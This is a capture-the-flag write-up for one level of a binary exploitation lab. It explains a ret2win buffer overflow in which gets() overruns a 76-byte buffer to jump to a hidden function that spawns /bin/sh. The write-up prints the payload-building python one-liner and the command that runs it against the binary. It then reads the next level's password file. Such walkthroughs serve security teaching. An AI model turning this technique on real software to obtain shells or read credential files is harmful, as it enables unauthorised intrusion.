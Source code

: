 # LEVEL1

Going forward, we'll begin each level by:
1. Logging into the current level via SSH

```
ssh level{X}@{VM_IP} -p 4242
```

2. Transferring the binary file to our local environment

```
scp -P 4242 level{X}@{VM_IP}:level{X} .
```

3. Decompiling it

-> [Decompiler Explorer](Ressources/links)

---

In this level, the [source code](source.c) shows that the *main()* function calls *gets()* with a character array of size 76 as its argument. Additionally, we notice a *run()* function, which executes **"/bin/sh"**, but it is not invoked. This type of challenge is known as a `Ret2win`.

> A **Ret2win** challenge involves a hidden function that needs to be called but is not referenced or used in the *main()* function.

The vulnerability in this level lies in the use of *gets()*, which reads user input and stores it in a buffer without checking the input's length. This allows us to exploit a `buffer overflow` to call the *run()* function and retrieve the flag.

> A **Buffer Overflow** exploit takes advantage of the code overflowing into unintended areas of memory, allowing the attacker to overwrite data and potentially execute malicious code.

To achieve this, we'll craft a `payload` that injects the address of the *run()* function into memory. To obtain the function's address, we'll examine the object files.

```
objdump -d level1
```
![alt text](Ressources/images/run_addr.png)

Here, we can see that the function's address is *08048444*. Next, we'll fill the 76-byte buffer with random characters and then place this address in reverse order, as the system uses a 32-bit architecture, meaning it's `little-endian`. This address will occupy the next 4 bytes, causing the overflow.

> A **little-endian** system stores the least-significant byte at the smallest address.

When the overflow occurs, the 4 bytes containing the address of *run()* will overwrite adjacent memory locations. If the program continues running after the overflow, it can execute the *run()* function.

Finally, we can build the payload using the information we have gathered.

```
python -c 'print"A"*76 + "\x44\x84\x04\x08"' > /tmp/payload
```
And apply it on the binary.

```
cat /tmp/payload - | ./level1
```

We can now retrieve the flag for the *level2* user.

```
cat /home/user/level2/.pass
```

**LEVEL1 COMPLETE!**